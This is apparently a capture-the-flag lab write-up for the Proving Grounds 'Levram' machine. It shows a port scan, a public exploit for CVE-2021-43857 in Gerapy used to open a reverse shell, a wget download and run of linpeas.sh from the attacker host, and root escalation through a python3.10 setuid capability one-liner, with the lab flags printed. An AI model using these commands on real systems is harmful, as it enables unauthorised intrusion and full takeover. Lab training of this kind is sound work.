

###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Levram
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.204.24 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.204.24:22
Open 192.168.204.24:8000

PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt syn-ack WSGIServer/0.2 CPython/3.10.6
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

google找到[edb-50640](https://www.exploit-db.com/exploits/50640)
```
┌──(kali㉿kali)-[~/pgplay]
└─$ python3 50640.py -t 192.168.204.24 -p 8000 -L 192.168.45.242 -P 443 
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
Traceback (most recent call last):
  File "/home/kali/pgplay/50640.py", line 130, in <module>
    exp.exploitation()
  File "/home/kali/pgplay/50640.py", line 76, in exploitation
    name = dict3[0]['name']
           ~~~~~^^^
IndexError: list index out of range
```

發現牠抓不到project，`admin/admin`登入之後先新增project



得到shell之後在`/home/app`得到local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ python3 50640.py -t 192.168.204.24 -p 8000 -L 192.168.45.242 -P 9001

app@ubuntu:~/gerapy$ whoami
app
app@ubuntu:~$ cat local.txt
f0684bc0ec8d73a088b8ffb6bd527267
```

用`linpeas.sh`
```
app@ubuntu:/tmp$ wget 192.168.45.242/linpeas.sh
app@ubuntu:/tmp$ chmod +x linpeas.sh
app@ubuntu:/tmp$ ./linpeas.sh

...
══╣ Parent process capabilities
CapInh:  0x0000000000000000=                                                                                                                
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
CapAmb:  0x0000000000000000=


Files with capabilities (limited to 50):
/snap/core20/1518/usr/bin/ping cap_net_raw=ep
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
...
```

搜尋[GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities)，在/root得proof.txt
```
app@ubuntu:~/gerapy$ /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'
root@ubuntu:/root# cat proof.txt
6437a1a7697d6847e3655ecd731f21ee
```
